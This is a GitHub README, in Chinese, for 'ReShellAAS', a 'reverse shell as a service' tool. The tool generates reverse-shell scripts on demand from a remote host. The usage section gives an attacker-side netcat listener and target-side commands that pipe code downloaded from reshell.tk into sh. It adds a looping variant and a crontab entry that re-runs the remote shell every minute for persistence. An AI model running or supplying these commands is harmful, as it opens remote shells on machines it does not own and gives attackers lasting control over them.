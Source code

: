 # ReShellAAS
Reverse Shell as a Service
反弹shell即服务

# 项目简介
无需再去记住复杂的反弹shell命令，通过Reverse Shell as a Service可以方便、快捷的创建反弹shell脚本。

# 安装及服务端启动方法
```
pip3 install flask
python3 app.py
```

# 使用方法
## Attacker Machine
```
nc -l 1337
```

## Target Machine
```
curl http://reshell.tk/ip/1337 | sh
或者
while true; do curl http://reshell.tk/ip/1337 | sh; done
```
配合crontab使用效果更佳
```
crontab -e
* * * * * /usr/bin/curl http://reshell.tk/ip/1337 | sh
```

# 致谢
感谢P师傅以及P师傅的知识星球以及原创这个点子的小机灵鬼。

# TODO
- 适应多场景的反弹shell语法
- etc...

